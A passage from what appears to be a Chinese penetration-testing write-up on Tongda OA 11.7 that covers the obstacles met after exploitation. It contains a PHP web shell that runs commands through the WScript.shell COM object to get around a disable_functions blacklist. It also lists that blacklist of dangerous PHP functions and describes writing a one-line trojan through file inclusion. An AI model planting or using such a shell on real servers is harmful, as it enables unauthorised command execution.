 ## 难点

### <a class="reference-link" name="1%EF%BC%8C%E8%BF%87%E6%BB%A4%E5%8D%B1%E9%99%A9%E5%87%BD%E6%95%B0"></a>1，过滤危险函数

disable_functions = exec,shell_exec,system,passthru,proc_open,show_source,phpinfo,popen,dl,eval,proc_terminate,touch,escapeshellcmd,escapeshellarg

在windows下可以使用com组件绕过

但是com拓展在5.4默认加载，其他php版本没有加载

通达11.7没有加载

```
&lt;?php
    $command=$_GET['a'];
    $wsh = new COM('WScript.shell'); // 生成一个COM对象　Shell.Application也能
    $exec = $wsh-&gt;exec("cmd /c ".$command); // 调用对象方法来执行命令
    $stdout = $exec-&gt;StdOut();
    $stroutput = $stdout-&gt;ReadAll();
    echo $stroutput;
?&gt;
```

目前没有好的绕过方法

### <a class="reference-link" name="2%EF%BC%8C%E5%8C%85%E5%90%AB%E4%BA%86%E5%B8%B8%E8%A7%81%E7%9A%84%E4%B8%80%E5%8F%A5%E8%AF%9D%E6%9C%A8%E9%A9%AC%EF%BC%8C%E4%BD%86%E6%98%AFecho%E5%8F%AF%E4%BB%A5%EF%BC%8Cvar_dump(scandir(%E2%80%98.%E2%80%99));%E9%83%BD%E4%B8%8D%E8%A1%8C"></a>2，包含了常见的一句话木马，但是echo可以，var_dump(scandir(‘.’));都不行

[![](https://p4.ssl.qhimg.com/t01697a00e37c85c694.png)](https://p4.ssl.qhimg.com/t01697a00e37c85c694.png)

只要传的参数有引号就不行，查看日志：

```
[11-Mar-2021 09:35:42 Etc/GMT-8] PHP Parse error:  syntax error, unexpected '"', expecting identifier (T_STRING) in C:\oa\webroot\general\reportshop\workshop\report\attachment-remark\`}`_1.txt(1) : eval()'d code on line 1
[11-Mar-2021 09:35:48 Etc/GMT-8] PHP Parse error:  syntax error, unexpected ''21\');' (T_ENCAPSED_AND_WHITESPACE), expecting identifier (T_STRING) in C:\oa\webroot\general\reportshop\workshop\report\attachment-remark\`}`_1.txt(1) : eval()'d code on line 1
```

但是不通过文件包含，直接给shell.php传参又可以正常执行

[![](https://p4.ssl.qhimg.com/t011322fa2e1758429d.png)](https://p4.ssl.qhimg.com/t011322fa2e1758429d.png)

可以通过包含文件直接写马，写的马由于disable_function限制，能连蚁剑，多的命令执行不了

### <a class="reference-link" name="3%EF%BC%8C%E9%80%9A%E8%BE%BE%E7%9A%84%E6%95%B0%E6%8D%AE%E5%BA%93%E9%83%BD%E6%98%AF%E5%8A%A0%E5%AF%86%E7%9A%84"></a>3，通达的数据库都是加密的
